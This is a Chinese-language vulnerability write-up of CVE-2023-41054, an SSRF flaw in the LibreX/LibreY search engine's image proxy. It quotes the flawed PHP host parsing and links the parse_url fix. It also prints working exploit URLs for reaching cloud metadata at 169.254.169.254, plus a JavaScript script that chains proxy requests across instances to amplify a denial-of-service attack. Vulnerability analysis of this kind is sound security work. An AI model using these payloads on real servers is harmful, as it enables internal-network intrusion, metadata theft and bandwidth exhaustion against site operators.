 ```yaml
---
title: CVE-2023-41054 漏洞分析
date: 2023-09-05T00:19:37+08:00
image: https://cve.mitre.org/images/cvelogobanner.png
description: 
tags:
-   url-parsing
-   ssrf
-   漏洞分析
---
```


[LibreX](https://github.com/hnhx/librex)/[Y](https://github.com/Ahwxorg/LibreY) 对 URL host 的错误解析导致了 SSRF 漏洞，攻击者可以绕过对 host 的检查向任意 URL 发送 GET request 并获取 response body，从而访问内网资源或进行 DoS 攻击。

<Excerpt />

-   [LibreY Server-Side Request Forgery (SSRF) vulnerability in image\_proxy.php · Advisory](https://github.com/Ahwxorg/LibreY/security/advisories/GHSA-p4f9-h8x8-mpwf)
-   [CVE-2023-41054](https://nvd.nist.gov/vuln/detail/CVE-2023-41054)

## 代码分析

```php
 $url = $_REQUEST["url"]; 
 $requested_root_domain = get_root_domain($url); 
  
 $allowed_domains = array("qwant.com", "wikimedia.org", get_root_domain($config->invidious_instance_for_video_results)); 
  
 if (in_array($requested_root_domain, $allowed_domains)) 
 { 
   $image = $url; 
   $image_src = request($image); 
  
   header("Content-Type: image/png"); 
   echo $image_src;
```

这里检查了 proxy 到的目标 URL 域名在一个允许列表之中，但是 `get_root_domain` 是一个自己写的函数：

```php
 function get_root_domain($url) { 
     $split_url = explode("/", $url); 
     $base_url = $split_url[2]; 
  
     $base_url_main_split = explode(".", strrev($base_url)); 
     $root_domain = strrev($base_url_main_split[1]) . "." . strrev($base_url_main_split[0]); 
  
     return $root_domain; 
 }
```

这一看就非常灵车（，它依赖于 URL 的标准形式，即以 `http(s)://` 开头。但是实际上 scheme 可以全部省略，或者只留一个 slash 而非两个，所以 `/image_proxy.php?url=example.com//qwant.com/../../` 或者 `/image_proxy.php?url=https:/example.com/qwant.com/../` 都可以通过这里的检查，从而造成 SSRF。

## 利用

### 访问内网资源

如果实例部署在 VPS 上可能可以在 169.254.169.254 获取到一些 metadata: `/image_proxy.php?url=169.254.169.254//qwant.com/../../latest/` 或 `/image_proxy.php?url=169.254.169.254//qwant.com/../../opc/v1/instance/`。

还可以对 localhost 做端口扫描、对内网 IP 地址的常用端口进行扫描之类的。

默认配置中限制了 protocol 为 HTTP(S)，所以无法访问本地文件之类的。

### 获取源站 IP 地址

如果用了 CDN，服务器的地址可能是隐藏的。可以向攻击者控制的服务器或 https://requestrepo.com/ 之类的发送请求来获得服务器的 IP 地址，从而绕开 CDN 进行 DDoS 之类的攻击。

### DoS

可以让服务器请求大文件来消耗服务器带宽（攻击者不需要接收 response 从而不需要消耗带宽），但实际上一般下载到一半就超时中断了，效果和下载一张较大的图片（没有漏洞也能做到）差不多。

但是通过任意 URL 的访问，可以套娃，例如 `http://librex.b.com/image_proxy.php?url=https:/librex.a.com/qwant.com/..//image_proxy.php?url=http:/librex.b.com/qwant.com/..//image_proxy.php?url=https:/librex.a.com/qwant.com/..//image_proxy.php?url=http:/speedtest.ftp.otenet.gr/qwant.com/..//files/test10Mb.db`。

```javascript
const INSTANCES = [
  'https://librex.a.com/',
  'https://librex.b.com/',
  'https://librex.c.com/',
];
const FINAL_TARGET = 'http://speedtest.ftp.otenet.gr/files/test10Mb.db';
const NUMBER_OF_ROUNDS = 25;
const NUMBER_OF_REQUESTS = 1;

function manipulatedUrlParam(url) {
  const u = new URL(url);
  return `${u.protocol}/${u.host}/qwant.com/../${u.pathname}${u.search}`;
}

function imageProxyUrl(instance, target) {
  const u = new URL("image_proxy.php", instance);
  u.search = new URLSearchParams({ url: manipulatedUrlParam(target) });
  // u.search = `?url=${manipulatedUrlParam(target)}`;
  return u.toString();
}

let chainedUrl = FINAL_TARGET;
for (let i = 0; i < NUMBER_OF_ROUNDS; i += 1) {
  chainedUrl = imageProxyUrl(INSTANCES[i % INSTANCES.length], chainedUrl);
}
console.log(chainedUrl);

for (let i = 0; i < NUMBER_OF_REQUESTS; i += 1) {
  console.time(`fetch ${i}`);
  fetch(chainedUrl).then((res) => {
    console.timeEnd(`fetch ${i}`);
    console.log(`${res.status}: ${res.statusText}`);
    console.log(`Content-Type: ${res.headers.get('Content-Type')}`);
    // res.text().then((t) => console.log(`Body Length: ${t.length}`));
  });
}
```

这样的话攻击者的一次请求就可以让服务器发送很多请求，也能同时消耗服务器的上行和下行带宽，并且同时攻击多个实例。

不同实例的攻击难度不同，可能和服务器配置有关，比较菜的服务器通过套娃一次请求就可以十几秒无响应。

## 修复

https://github.com/Ahwxorg/LibreY/pull/31/files （~~这个 PR 的名字好崩溃~~）

用 [`parse_url`](https://www.php.net/manual/en/function.parse-url.php) 就行，不知道当初作者为啥想不开自己造了个方轮子（
